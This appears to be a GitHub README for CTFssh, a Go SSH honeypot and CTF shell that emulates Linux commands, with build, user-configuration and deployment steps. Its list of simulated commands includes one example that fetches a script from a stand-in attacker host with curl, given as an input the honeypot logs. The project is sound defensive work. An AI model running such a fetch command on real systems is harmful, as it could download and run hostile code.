 # CTFssh – Minimal SSH Honeypot Shell

**CTFssh** is a lightweight and configurable SSH server written in Go, designed to simulate a restricted shell for honeypots, CTFs, and sandbox environments. It supports both password and public key authentication, user-based command whitelists, and realistic command emulation.

---

##  Features

-  Auth via shadow-compatible password hashes or SSH public keys
-  Per-user permissions and command restrictions
-  Simulates Linux commands using static text or fake executable scripts
-  No shell, tunneling, SCP, or real exec
-  Login rate limiting per user/IP
-  Honeypot-safe logging of commands and URLs

---

##  How It Works

- Users are authenticated using `users.json`
- Each session launches a custom shell environment
- Only predefined commands are accepted per user
- Commands either:
  - Return static text (from `text/`)
  - Run safe scripts (from `command/`)
- Logs all commands, login attempts, and fake network usage


##  Project Layout

```
├── main.go # Entrypoint 
├── users.go # Authentication logic 
├── commands.go # Command dispatch and execution 
├── hostkey.go # Host key loader/generator 
├── ratelimit.go # Login rate-limiting 
├── users.json # User definitions 
├── host_key # SSH server key 
├── command/ # Simulated executables (curl, ping, etc.) 
├── text/ # Static command output (ls, uname, etc.) 
├── help/ # Help messages per command 
├── work/ # Optional user work directory

```

##  Quick Start

###  Build

```bash
go build -o ctfssh
```
Host Key
Generate it on first run or with:
```bash
make hostkey
```
Create users.json
Example:
```json
[
  {
    "username": "admin",
    "hash": "$6$somesalt$...",
    "admin": true,
    "restrict": "",
    "allowed": ["help", "exit", "ls", "cat", "curl", "wget"],
    "prompt": "$ ",
    "banner": "Welcome to your secure fake shell"
  }
]
```

Generate hashes:
```bash
python3 -c 'import crypt; print(crypt.crypt("admin", crypt.mksalt(crypt.METHOD_SHA512)))'
```

Run the Server
```bash
./ctfssh --port 2222 --hostkey host_key --users users.json --banner "SSH-2.0-CTFssh"
```

Simulated Commands

cat /proc/cpuinfo
curl https://attacker.com/file.sh
ping 8.8.8.8
w, last, uname, uptime, ls, id

Security & Safety

All commands are isolated and non-destructive
Inputs are parsed and sanitized
No shell or command chaining allowed
Rate limiting blocks bruteforce attempts
Can safely be run on port 22 using setcap or iptables redirect



Flag	Description
--port	Port to listen on
--hostkey	Path to SSH private key
--users	Path to user config JSON
--banner	SSH version banner string

Example Commands in command/

cat → fake /proc and /etc reads
curl, wget → logs URLs and mimics download
ping → fake ICMP responses
w, last → fake session reports

Deployment

Use make build or:
```bash
go build -o ctfssh main.go users.go commands.go hostkey.go ratelimit.go
```

Use authbind, iptables, or setcap to bind to port 22 as non-root.

License
MIT


